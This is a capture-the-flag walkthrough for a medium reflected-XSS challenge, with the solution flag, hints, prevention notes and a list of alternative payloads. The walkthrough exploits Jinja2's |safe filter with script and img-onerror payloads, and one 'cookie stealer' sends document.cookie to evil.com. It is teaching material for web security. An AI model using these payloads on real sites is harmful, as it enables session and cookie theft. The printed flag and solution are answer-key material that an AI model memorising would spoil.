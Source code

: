 # Spirit Walkthrough

## Challenge Overview
**Difficulty**: Medium  
**Vulnerability**: Reflected XSS  
**Flag**: nhc{scr1pt3d_1llus10ns_sh4tt3r}

## Story Context
Hattori faces the Wall of Illusions, where messages can echo through the spirits if crafted with cunning.

## Solution Steps

### Step 1: Access the Challenge
1. Navigate to `/challenge/spirit`
2. Observe the message submission form

### Step 2: Understand the Vulnerability
The page reflects user input using Jinja2's `|safe` filter:
```html
<div class="message">
    <p>{{ reflected_message|safe }}</p>
</div>
```

### Step 3: Test Basic XSS
1. Submit a simple script: `<script>alert('XSS')</script>`
2. The page should execute the JavaScript

### Step 4: Craft Payload to Fetch Flag
1. Use XSS to make a request to `/flag` endpoint
2. Capture the response and display it
3. Payload:
   ```html
   <script>
   fetch('/flag')
   .then(response => response.text())
   .then(data => alert(data));
   </script>
   ```

### Step 5: Execute and Capture Flag
1. Submit the payload in the message form
2. The JavaScript executes and shows an alert with the flag
3. Copy the flag: nhc{scr1pt3d_1llus10ns_sh4tt3r}

## Hints

### Hint 1
> The wall reflects your messages back to you. What if your message contained more than just words?

### Hint 2
> Look for hints on the page itself. There's a 💡 icon that might reveal important information.

### Hint 3
> The `/flag` endpoint returns the spirit flag directly. How can you make the page fetch it for you?

## Educational Notes

### What You Learned
- **Reflected XSS**: Malicious scripts executed in victim's browser
- **JavaScript Injection**: Using script tags to execute code
- **Fetch API**: Making HTTP requests from JavaScript
- **CSP Bypass**: Understanding Content Security Policy limitations

### Real-World Impact
- Session hijacking
- Cookie theft
- Phishing attacks
- Malware distribution

### Prevention
- Input sanitization
- Content Security Policy (CSP)
- Output encoding
- XSS protection headers
- Avoid `|safe` filter with user input

## Alternative Payloads

### Simple Alert
```
<script>alert('XSS')</script>
```

### Cookie Stealer
```
<script>
fetch('http://evil.com/steal?cookie=' + document.cookie);
</script>
```

### Flag Fetcher (Advanced)
```
<script>
async function getFlag() {
    const response = await fetch('/flag');
    const flag = await response.text();
    alert(flag);
}
getFlag();
</script>
```

### Image-Based XSS
```
<img src=x onerror=alert('XSS')>
```

## Testing Tools

### Browser Console
```javascript
// Test basic XSS
document.write('<script>alert("XSS")</script>');
```

### XSS Payload Generators
- OWASP XSS Filter Evasion Cheat Sheet
- PortSwigger XSS cheat sheet

## Common Mistakes
- Forgetting to close script tags
- Not handling asynchronous operations
- Using blocked characters in CSP
- Not testing the payload in the correct context

## CSP Analysis
Current CSP allows:
- `script-src 'self' 'unsafe-inline'`
- This permits inline scripts for educational purposes

## Next Steps
Submit the fetched flag to unlock the Shadows challenge.
